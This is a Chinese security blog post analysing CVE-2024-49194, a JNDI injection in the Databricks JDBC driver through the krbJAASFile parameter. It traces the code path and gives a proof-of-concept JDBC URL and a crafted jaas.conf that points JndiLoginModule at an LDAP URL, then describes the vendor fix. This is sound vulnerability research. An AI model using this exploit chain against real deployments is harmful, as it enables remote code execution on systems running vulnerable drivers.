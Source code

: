 #  CVE-2024-49194 Databricks JDBC 驱动 JNDI 注入漏洞分析   
原创 KCyber  自在安全   2025-02-17 00:03  
  
**概述**  
  
  
Databricks JDBC 驱动程序中存在一个漏洞，影响 v2.6.38 及以下版本。  
从官方通报的信息来看，漏洞根源与 krbJAASFile 参数有关，攻击者可使用具有 Property 的特殊 JDBC URL 来触发 JNDI 注入。  
  
  
**漏洞分析**  
  
  
引入环境：  
  
  
```
<!-- https://mvnrepository.com/artifact/com.databricks/databricks-jdbc -->
<dependency>
    <groupId>com.databricks</groupId>
    <artifactId>databricks-jdbc</artifactId>
    <version>2.6.38</version>
</dependency>
```  
  
  
  
漏洞与参数 krbJAASFile 有关，直接提问大模型可知， krbJAASFile 参数用于 Kerberos 认证，负责指定 JAAS 配置文件路径：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN8xD4vXGPlOSR1GYBlDPB1UnVzic7icREicNNgzQYsFoGuWTpcOhadxsaXQ/640?wx_fmt=png&from=appmsg "")  
  
  
krbJAASFile 如果仅仅加载本地配置文件没有意义，测试是否支持 http 远程加载：  
  
```
package org.example;  
  
import java.sql.DriverManager;  
  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String jdbcUrl = "jdbc:databricks://localhost:443/default;transportMode=http;\n" +  
                "ssl=1;httpPath=/sql/1.0/endpoints/12345;\n" +  
                "AuthMech=1;krbHostFQDN=localhost;\n" +  
                "krbServiceName=spark;krbJAASFile=http://127.0.0.1:8888/jaas.conf";  
        DriverManager.getConnection(jdbcUrl);  
    }  
}
```  
  
  
确实可以从指定的 http 地址去加载远程文件，但是在 LoginContext 中抛出了异常：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN8XDqrtkAEWv1ibAt3ia7Yjnnl0dESfsBsrDicVxQIolRbMazmnrHAicBR0w/640?wx_fmt=png&from=appmsg "")  
  
继续与大模型"对话"，修正 jaas.conf 配置：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN8EA3cnP2x4NUtW2HoW5YaRlqOQYGibBq8HnrVyZ0eibTkjCIwI0eBLnlA/640?wx_fmt=png&from=appmsg "")  
  
更新配置后再次请求将进入 LoginContext#login 函数，并通过 invokePriv 来反射调用 LOGIN_METHOD 函数：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN80Oc0cegyOLibLU9HGiaVO4iaVtE7TluKkyalDLrIj6ovfpB4TcUoxqzOw/640?wx_fmt=png&from=appmsg "")  
  
继续往下走进入 Invoke 函数，这里将调用 module 对象的 login 函数， module 对应 jaas.conf 配置文件中的 Krb5LoginModule 类型：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN8CwGns7DR80G7lhTHjNCoibS9Hv9SOhOmeeHw6mLJWurrLRflEXbpibEg/640?wx_fmt=png&from=appmsg "")  
  
分析发现 LoginModule 接口存在多个子类，除了 Krb5LoginModule ，还存在一个名为 JndiLoginModule 的类型，为了验证其是否存在 JNDI 注入漏洞，修改配置文件如下：  
  
```
Client {
   com.sun.security.auth.module.JndiLoginModule required
   useKeyTab=true
   keyTab="/etc/security/databricks.keytab"
   principal="user@EXAMPLE.COM"
   storeKey=true
   debug=true;
};
```  
  
  
再次请求成功进入 com.sun.security.auth.module.JndiLoginModule#login 函数，内部首先判断 userProvider 、 groupProvider 是否为空，为空将抛出异常，然后当 tryFirstPass 为 true 时将调用 attemptAuthentication 函数：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN8Pib3gTib8lk2TAwYWWJr0S505uxqFtdhoGbcyxT1ceF8IKPicKb9Gw8Tw/640?wx_fmt=png&from=appmsg "")  
  
进入 attemptAuthentication 函数，存在明显的 JNDI 注入漏洞的 Sink 点，并且 lookup 函数的输入参数 userProvider 可控 ：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN8jUhcWpA0Ee08QKl8wRL8SmJcPo1ZtAMATyMjtYiceWV9SA3VardyHKA/640?wx_fmt=png&from=appmsg "")  
  
com.sun.security.auth.module.JndiLoginModule#initialize 函数中会完成 userProvider 等参数初始化：  
  
```
public final String USER_PROVIDER = "user.provider.url";
public final String GROUP_PROVIDER = "group.provider.url";
...
public void initialize(Subject subject, CallbackHandler callbackHandler,
                           Map<String,?> sharedState,
                           Map<String,?> options) {

  ...
  userProvider = (String)options.get(USER_PROVIDER);
  groupProvider = (String)options.get(GROUP_PROVIDER);
  tryFirstPass =
      "true".equalsIgnoreCase((String)options.get("tryFirstPass"));
  ...
}
```  
  
  
因此很容易构造出触发 JNDI 注入漏洞的配置文件：  
  
```
Client {
   com.sun.security.auth.module.JndiLoginModule required
   user.provider.url="ldap://localhost:1389/test"
   group.provider.url="test"
   tryFirstPass="true";
};
```  
  
  
成功触发：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN8QZYIVf4bibVyMJWHYNnp2aiclRFwb5gA6ID146ktylndPAgzxichkvVeQ/640?wx_fmt=png&from=appmsg "")  
  
**修复方式**  
  
  
新版本删除了对 krbJAASFile 参数的支持：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAzicSKBbeHhib0mmOrc37jxN82UfTLKRvoPme8IqlVwBBL91sU3Q6JHzePRLjsmNhN1dyLfJfibFKMRw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用本人负责，公众号及文章作者不为此承担任何责任。**  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
